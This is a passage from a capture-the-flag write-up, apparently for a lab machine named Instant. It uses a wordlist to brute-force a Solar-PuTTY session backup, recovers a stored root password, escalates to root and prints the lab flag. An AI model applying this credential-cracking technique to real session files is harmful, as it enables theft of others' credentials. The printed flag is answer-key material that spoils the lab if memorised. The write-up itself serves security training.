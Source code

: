 Let's use it:

```
python decrypt2.py sessions-backup.dat /usr/share/wordlists/rockyou.txt

-----------------------------------------------------
SolarPutty's Sessions Decrypter (Python Version)
-----------------------------------------------------
File content (first 50 bytes): b'ZJlEkpkqLgj2PlzCyLk4gtCfsGO2CMirJoxxdpclYTlEshKzJw'
Trying password: estrellaal
Potential successful decryption with password: estrella
Decrypted content (first 200 bytes):
b'\xacuY\xff\x11\xfbD\xba\xb3\xe2\xc8\x80pB\xbe\xceU\xed;\x8f)\x10\xb5Ins":[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b'
```

Nice, let's read our decrypted file:

```
cat SolarPutty_sessions_decrypted_estrella.bin

[{"Id":"066894ee-635c-4578-86d0-d36d4838115b","Ip":"10.10.11.37","Port":22,"ConnectionType":1,"SessionName":"Instant","Authentication":0,"CredentialsID":"452ed919-530e-419b-b721-da76cbe8ed04","AuthenticateScript":"00000000-0000-0000-0000-000000000000","LastTimeOpen":"0001-01-01T00:00:00","OpenCounter":1,"SerialLine":null,"Speed":0,"Color":"#FF176998","TelnetConnectionWaitSeconds":1,"LoggingEnabled":false,"RemoteDirectory":""}],"Credentials":[{"Id":"452ed919-530e-419b-b721-da76cbe8ed04","CredentialsName":"instant-root","Username":"root","Password":"12**24nzC!r0c%q12","PrivateKeyPath":"","Passphrase":"","PrivateKeyContent":null}],"AuthScript":[],"Groups":[],"Tunnels":[],"LogsFolderDestination":"C:\\ProgramData\\SolarWinds\\Logs\\Solar-PuTTY\\SessionLogs"}
```

And we got our `root` password, these are the credentials:

```
`root`:`12**24nzC!r0c%q12`
```

We can now switch users:

```
shirohige@instant:/opt/backups/Solar-PuTTY$ su root
Password:
root@instant:/opt/backups/Solar-PuTTY# whoami
root
```

Nice, let's simply read `root.txt`:

```
root@instant:/opt/backups/Solar-PuTTY# cat /root/root.txt
605c2864e2457606e34dbd95472c04e3
```


![[Pasted image 20250228180726.png]]


